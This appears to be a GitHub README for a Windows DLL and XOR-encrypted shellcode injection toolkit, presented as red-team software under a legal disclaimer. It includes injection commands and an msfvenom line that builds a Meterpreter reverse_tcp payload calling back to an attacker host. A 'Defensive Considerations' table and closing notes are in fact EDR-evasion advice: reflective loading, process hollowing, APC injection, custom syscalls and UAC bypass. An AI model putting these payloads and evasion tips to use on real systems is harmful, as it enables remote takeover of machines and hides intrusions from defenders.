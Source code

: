 # Dll-Inject 🔧 | Windows Injection Toolkit

Tools for implementing Windows processes, including implementing DLL libraries and implementing XOR-encrypted shellcode. Includes architecture verification and error handling

![GitHub](https://img.shields.io/badge/Language-C++-blue) 
![License](https://img.shields.io/badge/License-MIT-green) 
![Platform](https://img.shields.io/badge/OS-Windows-lightgrey)

<h2 align="center">⚠️ Legal & Ethical Warning</h2> 
**This project is for educational and authorized security research only.** Unauthorized use, including but not limited to attacking systems without explicit owner consent, is strictly prohibited and violates international cybercrime laws such as:  

**By using this toolkit, you agree to:**
1. **Legal Compliance**: Use only on systems you own or have written authorization to test.  
2. **Ethical Responsibility**: Never engage in malicious activities or data destruction.  
3. **Full Liability**: Assume all legal/financial consequences for misuse.  

---

## 🛠️ Core Features

| **Feature**              | **DLL Injector**                        | **Shellcode Injector**                        |
|--------------------------|-----------------------------------------|-----------------------------------------------|
| **Injection Method**     | `CreateRemoteThread` + `LoadLibraryW`   | Direct memory execution + XOR decryption      |
| **Payload Delivery**     | On-disk DLL                             | Fully in-memory                               |
| **Memory Protection**    | `PAGE_READWRITE`                        | `PAGE_EXECUTE_READWRITE` (DEP bypass)         |
| **Architecture Control** | Manual matching required                | Auto-detection via `IsWow64Process`           |
| **Obfuscation**          | None                                    | XOR encryption (key: `0xAA`)                  |
| **Payload Types**        | Standard DLLs                           | Staged/Non-staged (CS/Meterpreter compatible) |
| **Error Reporting**      | Win32 error codes                       | Detailed codes + execution timeout            |
| **Cleanup**              | Full handle/memory release              | Post-execution sanitization                   |
| **Ideal For**            | Game modding, debug hooks               | Red team operations, EDR research             |

---

## 🎯 Usage Scenarios

### DLL Injection
**Test DLL Creation:**
```cpp
// test_dll.cpp
#include <windows.h>
extern "C" __declspec(dllexport) void EntryPoint() {
    MessageBoxA(0, "Injected!", "Success", MB_OK);
}
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason, LPVOID lpReserved) {
    if (ul_reason == DLL_PROCESS_ATTACH) EntryPoint();
    return TRUE;
}
```
**Execution:**
```bash
.\dll-injector.exe (Get-Process notepad).Id "C:\test-payload.dll"
```
---

### Shellcode Injection
**Payload Generation:**
```bash
msfvenom --platform windows -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.10 LPORT=666 -f type
```
**Code Integration:**
```cpp
// shellcode-injector.cpp
unsigned char shellcode[] = { 
    ...
};
```
**Execution:**
```bash
shellcode-injector.exe 1472
```
<h1 align="center">
    <a href="https://github.com/Untouchable17/Windows-DLL-Shellcode-Injection-Toolkit">
        <img src="https://i.ibb.co/KkKZVkS/photo-shellcode.jpg" width="700">
    </a>
</h1>

---

## 🛠️ Compilation Guide

### **DLL Injector**
```bash
# x64
x86_64-w64-mingw32-g++ dll-injector.cpp -o dll-injector.exe -static -lws2_32 -s -Os

# x86
i686-w64-mingw32-g++ dll-injector.cpp -o dll-injector32.exe -static -lws2_32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

### **Shellcode Injector**
```bash
# x64
x86_64-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector.exe -static -lwin32 -s -Os

# x86
i686-w64-mingw32-g++ shellcode-injector.cpp -o shellcode-injector32.exe -static -lwin32 -s -Os

# Flags: -s (strip symbols), -Os (optimize for size) - optionally
```

---


## 🛡️ Defensive Considerations
| **Technique**             | **Detection Risk**         | **Mitigation Tips**                                                |
|---------------------------|----------------------------|--------------------------------------------------------------------|
| **Classic DLL Injection** | High                       | Use reflective DLL loading                                         |
| **XOR Encryption**        | Medium                     | Implement AES + runtime key derivation                             |
| **RWX Memory**            | Critical                   | Use NTAPI calls `NtAllocateVirtualMemory` + memory section mapping |
| **Remote Threads**        | High                       | Leverage process hollowing or APC queue injection                  |

---

### ⚠️ Important Notes
- **EDR Bypass:** This toolkit does not implement advanced evasion techniques. Always:
    - Test in isolated environments 
    - Combine with process spoofing/UAC bypass
    - Use custom syscalls instead of WinAPI
- **Shellcode Requirements:**
    - Position-independent (PIC)
    - Null-byte free (if using XOR)
- **Debugging:**
```cpp
#ifdef _DEBUG
printf("[+] Allocated memory at 0x%p\n", remoteBuffer);
#endif
```

---

<h2 align="center">Contact Developer</h2>

    Telegram Group:     t.me/secdet_team
    Email:              tylerblackout17@gmail.com
